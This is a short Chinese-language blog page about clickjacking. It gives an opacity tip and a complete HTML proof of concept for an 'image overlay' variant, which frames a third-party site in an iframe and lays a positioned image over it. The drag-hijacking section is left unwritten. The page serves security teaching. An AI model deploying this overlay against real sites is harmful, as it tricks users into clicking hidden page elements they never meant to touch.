 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)点击劫持clickjacking
>小贱提示： -moz-opacity: 0.5;opacity: 0.5;为透明度，0为完全透明

## ![](../img/github7.png)图片覆盖
和点击劫持同理，只是把图片放在上面
```
<!DOCTYPE html>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<head>
<title>点击劫持 POC</title>
</head>
<body>
<style>
img {
width: 1440px;
height: 200px;
position: absolute;
top: -0px;
left: -0px;
z-index: 2;
-moz-opacity: 1;
opacity: 1;
filter: alpha(opacity=0);

</style>
<iframe src="http://mmore.xyz" width=2000 height=1200 ></iframe>
<img src="http://b.hiphotos.baidu.com/image/pic/item/3ac79f3df8dcd1001341dbcd768b4710b8122f78.jpg" top=0>
</body>
</html>
```
## ![](../img/github8.png)拖拽劫持
原理相同，懒得写了


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
